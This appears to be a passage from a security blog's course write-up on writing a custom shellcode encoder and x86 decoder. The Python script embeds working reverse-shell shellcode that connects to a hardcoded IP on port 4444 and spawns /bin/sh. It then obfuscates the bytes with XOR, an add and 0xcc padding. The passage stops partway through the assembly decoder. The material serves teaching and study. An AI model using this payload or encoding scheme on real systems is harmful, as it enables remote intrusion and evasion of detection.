 {% highlight js %}
#!/usr/bin/python

# Python Encoder 

# xor with 0XBB, add 5 byte, then insert the 0xcc next in between

shellcode = ("\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x89\xc3\xb1\x03\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf7\x31\xdb\x89\xf3\x66\xb8\x6a\x01\x57\x68\xc0\xa8\xc8\x88\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x66\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

#loop through the shellcode

for x in bytearray(shellcode) :

	y = x^0xBB #XOR the current code with 0xBB

	y = y + 0x5 # add the 5 bytes to the XORed number

	encoded += '\\x'
	encoded += '%02x' % (y & 0xff) #format the shellcode
	encoded += '\\x%02x' % 0xcc #add the 0xcc next to the current code

	encoded2 += '0x'
	encoded2 += '%02x,' %(y & 0xff)
	encoded2 += '0x%02x,' % 0xcc


print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
{% endhighlight %}

![encodedShellcode](https://bohansec.com/assets/assignmet4-1.png "encodedShellcode")

### Step2 - Create the decoder in Assembly x86

{% highlight js %}
global _start			

section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi ;esi points to the address at beginning of the shellcode
	sub byte [esi], 0x5 ;minus the value pointed by esi with 5 byte
	xor byte [esi], 0xBB ;xor the value points nu esi with 0xBB 
	lea edi, [esi +1] ;load the address of the next byte to edi
	xor eax, eax ;initalize eax with 0
	mov al, 1 ;initalize eax to 1
	xor ebx, ebx ; initialize ebx to 0


decode:
	mov bl, byte [esi + eax] ;move 0xcc to ebx
	xor bl, 0xcc ;ebx XOR with 0xcc, it either be 0 or non 0
	jnz short Shellcode ;if the xor does not end with 0, means reach the end, jump to execute the shell
	mov bl, byte [esi + eax + 1] ;move the value at two bytes away to the ebx